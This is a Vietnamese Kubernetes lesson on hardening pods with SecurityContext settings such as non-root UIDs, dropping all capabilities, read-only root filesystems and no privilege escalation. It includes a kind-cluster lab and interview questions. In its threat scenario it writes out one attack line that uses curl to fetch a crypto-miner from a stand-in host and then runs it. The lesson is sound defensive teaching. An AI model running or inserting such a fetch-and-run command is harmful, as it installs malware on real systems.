


# Bài 33: SecurityContext: Siết chặt an toàn tiến trình cấp Linux Kernel

## 1. Thông tin bài học
* **Tên bài:** Bài 33: SecurityContext: Siết chặt an toàn tiến trình cấp Linux Kernel
* **Mục tiêu học:** Nắm vững cơ chế cấu hình an ninh tiến trình container bằng `securityContext` ở cấp độ hạt nhân Linux (Linux Kernel); phân biệt rạch ròi phạm vi áp dụng giữa Pod-level và Container-level SecurityContext; làm chủ các tham số bảo vệ sống còn: `runAsNonRoot`, `runAsUser`, `runAsGroup`, `fsGroup`, `allowPrivilegeEscalation: false`, `readOnlyRootFilesystem: true`; phẫu thuật cơ chế Linux Capabilities và thuần thục kỹ thuật tước bỏ toàn bộ đặc quyền kernel (`capabilities.drop: ["ALL"]`); thực hành cấu hình bộ SecurityContext chuẩn doanh nghiệp cho microservice `frontend` của Google Online Boutique trên cụm kind.
* **Thời lượng ước tính:** 180 phút (90 phút lý thuyết, 90 phút thực hành)
* **Kiến thức cần có trước:** Bài 01 (Linux Namespaces & Cgroups), Bài 02 (Container Image Layers), Bài 32 (Pod Security Standards & Admission).
* **Liên quan kỳ thi:** CKAD, CKS (Trọng tâm cấu phần Pod & Container Security: trong đề thi CKS luôn có 2–3 câu hỏi yêu cầu sửa manifest để Pod vượt qua bài kiểm tra an ninh: khóa chặt non-root, drop ALL capabilities, và bật filesystem read-only; trong CKAD thường yêu cầu cấu hình `fsGroup` để các container chia sẻ volume).

---

## 2. Bảng thuật ngữ

| Thuật ngữ | Giải thích đơn giản | Ví dụ / Ẩn dụ đời thường |
| :--- | :--- | :--- |
| **SecurityContext** | Khối cấu hình trong Pod/Container định nghĩa các đặc quyền và quyền truy cập cấp hệ điều hành Linux cho tiến trình. | Bản hợp đồng quy định rõ những việc mà nhà thầu phụ được phép và không được phép làm khi bước vào công ty. |
| **`runAsUser` / `runAsGroup`** | Chỉ định số định danh người dùng (UID) và nhóm (GID) cụ thể trong Linux để chạy tiến trình bên trong container. | Thẻ căn cước công dân và mã số nhân viên quy định bạn là nhân viên số 10001, không phải giám đốc (UID 0). |
| **`runAsNonRoot`** | Kiểm tra bắt buộc: Container không được phép chạy với quyền root (UID 0); nếu image mặc định là root thì Kubelet từ chối bật container. | Cổng an ninh tự động từ chối mở cửa nếu khách mặc trang phục cảnh sát giả mạo. |
| **`allowPrivilegeEscalation`** | Cờ kiểm soát việc tiến trình có thể xin cấp thêm quyền cao hơn quyền hiện tại của nó hay không (thông qua cơ chế `setuid`/`setgid`). | Quy định nhân viên thực tập tuyệt đối không được phép mượn quyền của trưởng phòng để ký duyệt giấy tờ. |
| **Linux Capabilities** | Cơ chế của Linux Kernel chia nhỏ quyền lực tối cao của `root` thành khoảng 40 mẩu đặc quyền độc lập (ví dụ: `NET_ADMIN`, `CHOWN`, `KILL`). | Thay vì trao chiếc chìa khóa vạn năng mở được 40 phòng, bạn chỉ trao chìa khóa mở đúng phòng họp. |
| **`readOnlyRootFilesystem`** | Khóa toàn bộ hệ thống tệp gốc (`/`) của container ở chế độ chỉ đọc; cấm mọi hành vi tạo mới hoặc sửa đổi file trong container. | Một cuốn sách được đóng bìa cứng và niêm phong: Bạn chỉ có thể đọc từng trang chữ, không thể dùng bút vẽ bậy hay xé trang. |
| **`fsGroup`** | Nhóm người dùng (GID) đặc biệt mà Kubernetes tự động gán quyền sở hữu (Ownership) cho tất cả các volume được gắn vào Pod. | Mã số chìa khóa hòm thư chung: Tất cả thành viên trong cùng một gia đình đều mở được hòm thư đó. |
| **Seccomp (Secure Computing Mode)** | Bộ lọc hệ thống của Linux Kernel hạn chế các lời gọi hàm hệ thống (System Calls) mà tiến trình được phép gọi xuống CPU. | Danh sách các câu hỏi mà học sinh được phép hỏi giám thị trong phòng thi: Chỉ được hỏi xin thêm giấy nháp, không được hỏi bài giải. |

---

## 3. Bức tranh lớn: Vấn đề thực tế và ẩn dụ đời thường

### Nhắc lại bài trước
Ở Bài 32, chúng ta đã học về Pod Security Standards (PSS) cấp độ `Restricted` – người gác cổng ở cấp Namespace từ chối tiếp nhận các manifest vi phạm. Nhưng làm thế nào để chúng ta viết được một Pod manifest thỏa mãn 100% tiêu chuẩn Restricted đó? Câu trả lời nằm ở đối tượng kỹ thuật trực tiếp thực thi: **`securityContext`**.

### Tại sao cần cái này ở production? (Vấn đề thực tế)

Hãy nhớ lại kiến thức cốt lõi ở Bài 01: **Container không phải là một máy ảo (VM)!**  
Container thực chất chỉ là một tiến trình bình thường của Linux, chạy chung hạt nhân Linux Kernel với máy chủ vật lý (Host Node). Điều này dẫn đến những rủi ro an ninh chết người:
1. **Ảo tưởng về "Root trong Container":**
   Khi bạn chạy một container với Dockerfile mặc định không có chỉ thị `USER`, tiến trình bên trong container chạy với `UID 0` (User Root).  
   Mặc dù nó nằm trong User Namespace bị cô lập, nhưng nếu hạt nhân Linux có một lỗ hổng bảo mật chưa được vá (Kernel Zero-Day Vulnerability như Dirty COW, Dirty Pipe), hacker từ bên trong container có thể gửi system call khai thác lỗ hổng và **trở thành ROOT THẬT của máy chủ vật lý bên ngoài**!
2. **Kịch bản mã độc tự tải về (Malware Ingress):**
   Một trang web thương mại điện tử bị dính lỗ hổng Remote Code Execution (RCE). Hacker gửi request ép máy chủ chạy lệnh:
   `curl https://hacker.com/crypto-miner -o /tmp/miner && chmod +x /tmp/miner && ./miner`  
   Nếu hệ thống tệp của container cho phép ghi tự do, mã độc đào tiền ảo sẽ lập tức được cài đặt và tiêu thụ 100% tài nguyên cluster. Nhưng nếu bạn bật `readOnlyRootFilesystem: true`, lệnh trên sẽ lập tức bị chặn đứng: `Read-only file system`! Cuộc tấn công bị bẻ gãy hoàn toàn.
3. **Hiểm họa từ các công cụ leo thang đặc quyền (SUID Binaries):**
   Bên trong nhiều image Linux phổ thông (Ubuntu, Debian, CentOS) có sẵn các file nhị phân mang cờ `Set-UID` (như `/usr/bin/sudo`, `/bin/su`, `/usr/bin/passwd`). Nếu hacker vào được shell với user thường, hắn có thể lợi dụng lỗi của các file này để nâng quyền lên root. Tham số `allowPrivilegeEscalation: false` sẽ triệt tiêu hoàn toàn cơ chế SUID này trong hạt nhân Linux!

### Ẩn dụ đời thường: Thợ sửa ống nước và Bản nội quy nghiêm ngặt

Hãy hình dung việc bạn cho một container chạy trên máy chủ giống như việc bạn thuê một người thợ sửa ống nước vào nhà riêng:
* **Container mặc định (Không có SecurityContext):** Bạn cho người thợ vào nhà, không hỏi căn cước (`runAsUser` bỏ trống), trao cho anh ta chùm chìa khóa mở mọi phòng (`root UID 0`), cho phép anh ta mang theo cả búa tạ và kìm cộng lực (`Linux Capabilities`), và cho phép anh ta sơn sửa lại bất kỳ bức tường nào trong nhà (`filesystem` cho phép ghi). Nếu đây là kẻ trộm đóng giả, ngôi nhà của bạn sẽ bị vét sạch!
* **Container được khóa chặt bằng SecurityContext:**
  * Bạn yêu cầu người thợ đeo thẻ nhân viên số 10001, tuyệt đối không được giả danh chủ nhà (`runAsUser: 10001`, `runAsNonRoot: true`).
  * Kiểm tra túi đồ: Tước bỏ toàn bộ búa tạ, súng bắn đinh, chỉ cho phép mang đúng 1 chiếc cờ lê nhỏ (`capabilities: drop: ["ALL"]`).
  * Yêu cầu mặc đồ bảo hộ không có túi áo hay túi quần giấu đồ (`allowPrivilegeEscalation: false`).
  * Người thợ chỉ được phép làm việc trong đúng buồng tắm; mọi căn phòng khác đều bị khóa cửa kính chống đập (`readOnlyRootFilesystem: true`). Nếu cần để tạm ốc vít thừa, bạn đưa cho một chiếc rổ nhựa nhỏ (`emptyDir` mount vào `/tmp`).

---

## 4. Giải thích khái niệm theo từng bước

### 4.1. Phân cấp SecurityContext: Cấp Pod vs Cấp Container

Trong cấu trúc YAML của Pod, `securityContext` có thể xuất hiện ở hai vị trí khác nhau:
1. **Pod-level (`spec.securityContext`):** Áp dụng cho **TOÀN BỘ** các container bên trong Pod (bao gồm cả Init Containers và Ephemeral Debug Containers). Thường dùng để đặt các cấu hình chung cho cả nhóm như `runAsUser`, `runAsGroup`, `fsGroup`, `seccompProfile`.
2. **Container-level (`spec.containers[*].securityContext`):** Áp dụng riêng biệt cho **TỪNG CONTAINER CỤ THỂ**. Cấu hình ở cấp container có thể **ghi đè (Override)** cấu hình của cấp Pod!



> [!NOTE]
> **Các thuộc tính CHỈ CÓ THỂ đặt ở cấp Container (không thể đặt ở cấp Pod):**
> * `allowPrivilegeEscalation`
> * `capabilities` (add/drop)
> * `readOnlyRootFilesystem`
> * `privileged`

---

### 4.2. Quản trị định danh: `runAsUser`, `runAsGroup`, `runAsNonRoot`

Khi một tiến trình khởi chạy trong Linux, nhân kernel kiểm tra 3 thông số định danh:
1. **`runAsUser`:** Ép tiến trình chạy với UID cụ thể (ví dụ: `10001`). Cho dù trong `Dockerfile` có ghi `USER root`, Kubernetes vẫn sẽ cưỡng chế chuyển sang UID này lúc container khởi động.
2. **`runAsGroup`:** Ép tiến trình thuộc về Primary GID cụ thể.
3. **`runAsNonRoot: true`:** Một lớp bảo vệ an toàn chủ động. Trước khi bật container, Kubelet sẽ kiểm tra:
   * Nếu image có UID = 0 (root) và bạn không đặt `runAsUser` non-root $\rightarrow$ Kubelet **từ chối chạy container** và báo lỗi `CreateContainerConfigError`!

---

### 4.3. Phẫu thuật Linux Capabilities: Tước bỏ đặc quyền Root

Trước phiên bản Linux 2.2, quyền hạn trong hệ điều hành Linux chia làm 2 cực nhị phân thô thiển:
* Hoặc bạn là `root` (UID 0): Có toàn quyền làm mọi thứ trên đời.
* Hoặc bạn là user thường: Bị cấm hầu hết các thao tác hệ thống.

Để khắc phục điều này, Linux Kernel đã chia nhỏ quyền lực của root thành khoảng 40 mẩu nhỏ gọi là **Capabilities**:
* `CAP_CHOWN`: Quyền đổi người sở hữu file.
* `CAP_NET_BIND_SERVICE`: Quyền mở cổng mạng dưới 1024 (như cổng 80, 443).
* `CAP_NET_ADMIN`: Quyền sửa bảng định tuyến, sửa iptables của card mạng.
* `CAP_SYS_ADMIN`: "Chiếc chìa khóa vạn năng" nguy hiểm nhất, tương đương 80% quyền root.
* `CAP_KILL`: Quyền gửi tín hiệu tắt tiến trình của người khác.

Mặc định khi chạy Docker/containerd, container được cấp sẵn khoảng 14 capabilities (trong đó có `CHOWN`, `SETUID`, `FOWNER`...). Đây là lỗ hổng tiềm ẩn!  
**Quy tắc vàng của Senior SRE (Drop ALL):**
```yaml
securityContext:
  capabilities:
    drop:
    - ALL # Vứt bỏ sạch sẽ toàn bộ 40 capabilities!
    add:
    - NET_BIND_SERVICE # Chỉ nhặt lại duy nhất quyền mở cổng 80 nếu app thực sự cần
```

---

### 4.4. Cơ chế chống leo thang quyền: `allowPrivilegeEscalation: false`

Trong Linux, có một cơ chế gọi là cờ **SUID (Set User ID)**. Khi một file thực thi có gắn cờ SUID, bất kỳ ai chạy file đó sẽ tạm thời nhận được quyền hạn của người sở hữu file!  
*Ví dụ điển hình:* File `/usr/bin/passwd` thuộc sở hữu của `root` và có cờ SUID (`-rwsr-xr-x`). Khi người dùng thường chạy lệnh này để đổi mật khẩu, tiến trình tạm thời leo thang quyền thành `root` để ghi vào file `/etc/shadow`.

Hacker thường xuyên lợi dụng các file SUID có lỗ hổng để leo thang đặc quyền từ user thường lên root.  
Khi bạn đặt:
```yaml
securityContext:
  allowPrivilegeEscalation: false
```
Kubelet sẽ thiết lập cờ hạt nhân **`PR_SET_NO_NEW_PRIVS`** cho tiến trình container. Khi cờ này được bật, nhân Linux kernel sẽ **vô hiệu hóa hoàn toàn cơ chế SUID/SGID**! Tiến trình con vĩnh viễn không bao giờ có thể đạt được quyền hạn cao hơn tiến trình cha!

---

### 4.5. Khóa cứng hệ thống tệp: `readOnlyRootFilesystem` kết hợp `emptyDir`

Khi bật `readOnlyRootFilesystem: true`, container runtime gắn phân vùng gốc (`/`) ở chế độ Read-Only (chỉ đọc).  
Nhưng hầu hết các ứng dụng (như Java, Python, NodeJS, Nginx) khi chạy đều cần một nơi để ghi file tạm (temporary cache, socket, file log). Làm sao ứng dụng có thể chạy được nếu không thể ghi file?

**Giải pháp kiến trúc kinh điển:**  
Gắn một volume loại `emptyDir` (bộ nhớ tạm chạy trên RAM tmpfs) vào các thư mục mà ứng dụng bắt buộc phải ghi dữ liệu (ví dụ: `/tmp` hoặc `/var/log`):



---

## 5. Thực hành (Lab)

* **Môi trường:** Cluster kind 2 node (`lab-control-plane`, `lab-worker`).
* **Mức RAM ước tính:** ~200 MB.
* **Mục tiêu thực hành:**
  1. Khảo sát một Pod thông thường để thấy rõ mức độ hớ hênh về an ninh (chạy user root, full capabilities, ghi file thoải mái).
  2. Xây dựng cấu hình `securityContext` toàn diện cho microservice `frontend` (Online Boutique).
  3. Kiểm chứng các lớp phòng thủ: Kiểm tra UID non-root, kiểm chứng lỗi khi cố tình ghi file vào hệ thống gốc, kiểm chứng thư mục tạm `/tmp` hoạt động bình thường.
  4. Kiểm tra danh sách Capabilities thực tế bằng công cụ `capsh`.
  5. Dọn dẹp tài nguyên.

---

### Bước 1: Khảo sát hiện trạng của một Pod mặc định (Hớ hênh)

Khởi tạo một Pod busybox thông thường không khai báo securityContext:

```powershell
kubectl run unsecure-pod --image=busybox:1.36 --restart=Never -- sleep 3600
kubectl wait --for=condition=Ready pod/unsecure-pod --timeout=60s
```

Hãy vào kiểm tra danh tính và khả năng ghi file của Pod này:

```powershell
# 1. Kiểm tra User đang chạy:
kubectl exec unsecure-pod -- id

# 2. Thử tạo một file mã độc trong thư mục hệ thống /bin:
kubectl exec unsecure-pod -- touch /bin/malicious-script

# 3. Kiểm tra file vừa tạo:
kubectl exec unsecure-pod -- ls -la /bin/malicious-script
```

**Kết quả thu được:**
```text
uid=0(root) gid=0(root) groups=0(root),10(wheel)
-rw-r--r--    1 root     root             0 Oct 09 11:50 /bin/malicious-script
```
> [!WARNING]
> Pod đang chạy với quyền **`root` tối cao**! Nó có thể tự do ghi đè, sửa đổi bất kỳ file nhị phân nào trong hệ thống! Đây là kịch bản trong mơ của mọi tin tặc.

Xóa Pod nháp:
```powershell
kubectl delete pod unsecure-pod
```

---

### Bước 2: Thiết kế SecurityContext toàn diện cho microservice frontend

Bây giờ chúng ta sẽ dựng file manifest `hardened-frontend.yaml` áp dụng toàn bộ các phòng tuyến an ninh cấp hạt nhân Linux:

```powershell
@'
apiVersion: v1
kind: Pod
metadata:
  name: hardened-frontend
  labels:
    app: frontend
spec:
  # 1. BẢO VỆ CẤP POD (Áp dụng toàn cụm pod)
  securityContext:
    runAsNonRoot: true              # Cấm tiệt quyền root
    runAsUser: 10001                # Ép chạy dưới UID 10001
    runAsGroup: 10001               # Ép chạy dưới GID 10001
    fsGroup: 10001                  # Quyền sở hữu volume gắn ngoài là GID 10001
    seccompProfile:
      type: RuntimeDefault          # Dùng bộ lọc system call chuẩn của Linux
  containers:
  - name: server
    image: gcr.io/google-samples/microservices-demo/frontend:v0.10.1
    ports:
    - containerPort: 8080
    env:
    - name: PORT
      value: "8080"
    # 2. BẢO VỆ CẤP CONTAINER (Siết chặt tiến trình)
    securityContext:
      allowPrivilegeEscalation: false # Chặn đứng leo thang SUID
      readOnlyRootFilesystem: true    # Khóa cứng hệ thống tệp chỉ đọc
      capabilities:
        drop:
        - ALL                         # Tước sạch 100% Linux capabilities
    # 3. CẤP PHÁT BỘ ĐỆM CHO CÁC THƯ MỤC CẦN GHI
    volumeMounts:
    - name: tmp-volume
      mountPath: /tmp
    resources:
      requests:
        cpu: "50m"
        memory: "64Mi"
      limits:
        cpu: "150m"
        memory: "128Mi"
  volumes:
  - name: tmp-volume
    emptyDir: {}                      # Gắn thư mục tạm trên RAM
'@ | Set-Content -Encoding utf8 hardened-frontend.yaml

kubectl apply -f hardened-frontend.yaml
kubectl wait --for=condition=Ready pod/hardened-frontend --timeout=60s
```

---

### Bước 3: Kiểm chứng danh tính Non-Root (UID 10001)

Kiểm tra ID của tiến trình đang chạy bên trong container:

```powershell
kubectl exec hardened-frontend -- id
```

**Kết quả mong đợi:**
```text
uid=10001 gid=10001 groups=10001
```
*Tiến trình hoàn toàn chạy dưới tư cách người dùng thường `10001`, không còn bất kỳ dấu vết nào của quyền root!*

---

### Bước 4: Kiểm chứng hàng rào Read-Only Filesystem

Hãy đóng vai trò một hacker cố tình ghi file mã độc vào thư mục `/`:

```powershell
kubectl exec hardened-frontend -- touch /test-hack.sh
```

**Kết quả mong đợi:**
```text
touch: /test-hack.sh: Read-only file system
command terminated with exit code 1
```
*Hạt nhân Linux lập tức dội gáo nước lạnh vào kẻ tấn công: Toàn bộ hệ thống tệp là Read-Only!*

Bây giờ hãy thử ghi file vào thư mục `/tmp` (nơi đã được gắn volume `emptyDir`):

```powershell
kubectl exec hardened-frontend -- touch /tmp/valid-temp-file.log
kubectl exec hardened-frontend -- ls -la /tmp/valid-temp-file.log
```

**Kết quả mong đợi:**
```text
-rw-r--r-- 1 10001 10001 0 Oct  9 11:55 /tmp/valid-temp-file.log
```
*File tạm được tạo thành công mỹ mãn dưới quyền sở hữu của user `10001`! Ứng dụng vẫn hoạt động trơn tru trong khi hệ thống được bảo vệ an toàn tuyệt đối.*

---

### Bước 5: Kiểm chứng tước bỏ toàn bộ Linux Capabilities

Hãy tạo một Pod kiểm thử bằng image `nicolaka/netshoot` (có sẵn lệnh `capsh`) và tước bỏ toàn bộ capabilities:

```powershell
@'
apiVersion: v1
kind: Pod
metadata:
  name: cap-test-pod
spec:
  containers:
  - name: tester
    image: nicolaka/netshoot
    command: ["sleep", "3600"]
    securityContext:
      capabilities:
        drop:
        - ALL
'@ | Set-Content -Encoding utf8 cap-test.yaml

kubectl apply -f cap-test.yaml
kubectl wait --for=condition=Ready pod/cap-test-pod --timeout=60s
```

Sử dụng lệnh `capsh` để soi bảng đặc quyền Linux Kernel của tiến trình:

```powershell
kubectl exec cap-test-pod -- capsh --print
```

**Đoạn Output quan trọng:**
```text
Current: =
Bounding set =
Ambient set =
```
> [!TIP]
> Nhìn vào dòng `Current: =` và `Bounding set =`: Trống rỗng hoàn toàn!  
> Tiến trình container này không sở hữu dù chỉ là một capability nhỏ nhất của Linux Kernel! Cho dù hacker có làm cách nào đi nữa, hắn cũng không thể gửi bất kỳ tín hiệu nguy hiểm nào xuống nhân hệ điều hành.

---

### Bước 6: Dọn dẹp tài nguyên (Cleanup)

Giải phóng toàn bộ tài nguyên lab:

```powershell
kubectl delete -f hardened-frontend.yaml
kubectl delete -f cap-test.yaml
Remove-Item hardened-frontend.yaml, cap-test.yaml -ErrorAction SilentlyContinue
```

---

## 6. Lỗi thường gặp và cách debug

### Lỗi 1: `CreateContainerConfigError` với thông điệp `container has runAsNonRoot and image will run as root`
* **Dấu hiệu:** Pod không thể chuyển sang `Running`, `kubectl get pod` hiển thị `CreateContainerConfigError`.
* **Nguyên nhân:** Bạn khai báo `runAsNonRoot: true` nhưng quên không đặt `runAsUser: <UID>`, trong khi file `Dockerfile` của image gốc lại không có chỉ thị `USER` (mặc định image chạy root UID 0). Kubelet phát hiện ra sự mâu thuẫn này và kiên quyết từ chối khởi động container.
* **Cách debug và sửa:**
  * Bổ sung rõ ràng trường `runAsUser: 10001` vào phần `securityContext` để ép buộc container chạy dưới một UID cụ thể.

---

### Lỗi 2: Ứng dụng bị Crash do không ghi được file cấu hình hoặc file log
* **Dấu hiệu:** Pod bật lên được vài giây thì bị `CrashLoopBackOff`. Xem log bằng `kubectl logs` thấy thông báo: `EACCES: permission denied, open '/var/log/app.log'` hoặc `ReadOnlyFileSystem`.
* **Nguyên nhân:** Bật `readOnlyRootFilesystem: true` nhưng ứng dụng lại có hành vi ghi file log trực tiếp ra đĩa cứng tại một thư mục cục bộ chưa được mount volume.
* **Cách debug và sửa:**
  1. Kiểm tra log ứng dụng để tìm chính xác đường dẫn thư mục mà ứng dụng đòi ghi dữ liệu (ví dụ: `/var/log`, `/cache`, `/app/temp`).
  2. Khai báo thêm volume `emptyDir` và mount đè vào đúng đường dẫn đó trong `volumeMounts`.

---

### Lỗi 3: Khởi động Pod cực chậm khi mount PersistentVolume dung lượng lớn có `fsGroup`
* **Dấu hiệu:** Một Pod cơ sở dữ liệu (PostgreSQL/MySQL) gắn PVC chứa 500GB dữ liệu với hàng triệu file nhỏ. Mỗi lần restart Pod, thời gian chờ Pod chuyển sang `Running` mất tới 15–20 phút!
* **Nguyên nhân:** Theo mặc định, mỗi khi khởi động Pod có khai báo `fsGroup`, Kubelet sẽ duyệt đệ quy (Recursive Walk) qua **từng file và từng thư mục con** trên ổ đĩa để chạy lệnh `chown` đổi nhóm sở hữu sang `fsGroup`. Hàng triệu file nhỏ sẽ khiến ổ cứng bị quá tải I/O!
* **Cách debug và sửa:**
  * Từ Kubernetes v1.20+, hãy bổ sung cấu hình **`fsGroupChangePolicy: "OnRootMismatch"`**:
    ```yaml
    securityContext:
      fsGroup: 2000
      fsGroupChangePolicy: "OnRootMismatch"
    ```
    Khi bật chính sách này, Kubelet sẽ kiểm tra thư mục gốc của volume. Nếu thư mục gốc đã có quyền sở hữu đúng với `fsGroup` rồi, Kubelet sẽ **bỏ qua toàn bộ các file con**, giúp Pod khởi động thần tốc chỉ trong vài giây!

---

## 7. Góc nhìn Senior

### 1. Sự đánh đổi (Trade-offs): Bảo mật tối đa vs Khả năng tương thích ứng dụng

| Tiêu chí | Cấu hình lỏng lẻo (Mặc định) | Cấu hình Hardening toàn diện (SecurityContext) |
| :--- | :--- | :--- |
| **Bảo mật** | Rất yếu: Dễ bị thoát container và chiếm quyền máy chủ host. | Cực mạnh: Miễn nhiễm với hầu hết các lỗ hổng khai thác Kernel và RCE. |
| **Tính tương thích** | 100%: Mọi image từ Docker Hub tải về đều chạy được ngay. | Thấp hơn: Cần thời gian rà soát, kiểm tra quyền ghi file và cấu hình user cho từng ứng dụng. |
| **Công sức bảo trì** | Nhàn rỗi lúc đầu, nhưng gặp thảm họa khi bị tấn công mạng. | Tốn công thiết kế manifest ban đầu, nhưng an tâm tuyệt đối lúc vận hành. |
| **Khuyến nghị áp dụng** | Chỉ chấp nhận trên môi trường Sandbox/Lab cá nhân. | **Bắt buộc 100% cho các microservice chạy trên Production!** |

---

### 2. Best practices tại production

1. **Chuẩn hóa UID/GID trong Dockerfile (Non-root Base Image):**
   * Đừng đợi đến lúc viết Kubernetes YAML mới ép chạy non-root. Hãy tạo thói quen tạo user non-root ngay trong `Dockerfile`:
     ```dockerfile
     RUN addgroup -g 10001 -S appgroup && adduser -u 10001 -S appuser -G appgroup
     USER 10001:10001
     ```
   * Khi đó, image của bạn sẽ tự động an toàn ở mọi nơi, kể cả khi chạy bằng Docker độc lập.
2. **Khai thác Seccomp Profile chuẩn `RuntimeDefault`:**
   * Kể từ Kubernetes v1.27, seccomp profile mặc định của container runtime (`RuntimeDefault`) chặn khoảng 60–70 system call nguy hiểm và hiếm khi dùng của Linux (như `reboot`, `swapoff`, `kexec_load`).
   * Luôn thêm dòng sau vào `securityContext` cấp Pod:
     ```yaml
     seccompProfile:
       type: RuntimeDefault
     ```
3. **Mẫu SecurityContext chuẩn mực cho Microservices (Golden Template):**
   * Trong các dự án Platform/Enterprise lớn, mẫu chuẩn cho mọi Pod microservice phi trạng thái luôn luôn là:
     * Cấp Pod: `runAsNonRoot: true`, `seccompProfile.type: RuntimeDefault`.
     * Cấp Container: `allowPrivilegeEscalation: false`, `readOnlyRootFilesystem: true`, `capabilities.drop: ["ALL"]`.

---

### 3. Câu hỏi phỏng vấn Senior

* **Câu hỏi 1:** *Khi khai báo `securityContext` ở cả cấp Pod (`spec.securityContext`) và cấp Container (`spec.containers[*].securityContext`), cơ chế hợp nhất (Merge) và ghi đè (Override) diễn ra như thế nào? Đưa ra một ví dụ cụ thể.*
* **Gợi ý trả lời chuẩn:**
  * **Cơ chế:** Cấu hình ở cấp Container luôn có mức độ ưu tiên cao hơn (Override) cấu hình ở cấp Pod đối với các trường trùng nhau. Các trường không bị trùng sẽ được kế thừa từ cấp Pod.
  * **Ví dụ:**
    * Ở cấp Pod khai báo: `runAsUser: 1000`, `runAsGroup: 3000`.
    * Ở Container A không khai báo gì $\rightarrow$ Container A chạy với `UID 1000` và `GID 3000`.
    * Ở Container B khai báo: `runAsUser: 2000` $\rightarrow$ Container B sẽ chạy với `UID 2000` (ghi đè), nhưng vẫn thừa hưởng `GID 3000` từ cấp Pod!

* **Câu hỏi 2:** *Tại sao cờ `allowPrivilegeEscalation: false` lại được coi là phòng tuyến quan trọng bậc nhất trong việc phòng chống leo thang đặc quyền Linux? Nếu một container chạy với `runAsUser: 10001` (non-root), liệu hacker có thể leo thang lên root được không nếu cờ này bị bỏ quên (`allowPrivilegeEscalation: true`)?*
* **Gợi ý trả lời chuẩn:**
  * **Hoàn toàn CÓ THỂ!** Nếu `allowPrivilegeEscalation: true`:
    * Cho dù container đang chạy với UID 10001, nhưng nếu bên trong container có chứa một file nhị phân có gắn quyền **SUID (Set-UID)** thuộc sở hữu của root (chẳng hạn như một bản `sudo`, `pkexec`, hoặc file script nhị phân được lập trình viên cấp quyền `chmod u+s`), hacker có thể thực thi file đó.
    * Khi file SUID chạy, nhân Linux sẽ tạm thời nâng quyền thực thi của tiến trình lên quyền của người sở hữu file đó (tức là UID 0 - Root)!
  * **Tác dụng của `allowPrivilegeEscalation: false`:**
    * Nó kích hoạt cờ `no_new_privs` ở cấp Linux Kernel. Khi cờ này bật, Linux Kernel sẽ **từ chối tuyệt đối việc áp dụng cờ SUID/SGID**! Bất kỳ tiến trình nào cố gắng nâng quyền qua file SUID đều sẽ bị ép chạy với đúng quyền hạn của user hiện tại (UID 10001), chặn đứng hoàn toàn kỹ thuật tấn công leo thang quyền lực.

---

## 8. Tóm tắt bài học
* 📌 **1. Bản chất SecurityContext:** Điều khiển trực tiếp các tham số an ninh của tiến trình ở cấp độ nhân hạt nhân Linux (Kernel).
* 📌 **2. Pod-level vs Container-level:** Cấp Pod áp dụng chung cho mọi container; cấp Container có quyền ghi đè (override) và chứa các quyền đặc thù (`capabilities`, `readOnlyRootFilesystem`).
* 📌 **3. Bộ ba định danh an toàn:** Luôn kết hợp `runAsNonRoot: true`, `runAsUser: <UID>` và `runAsGroup: <GID>` để cấm tiệt quyền root.
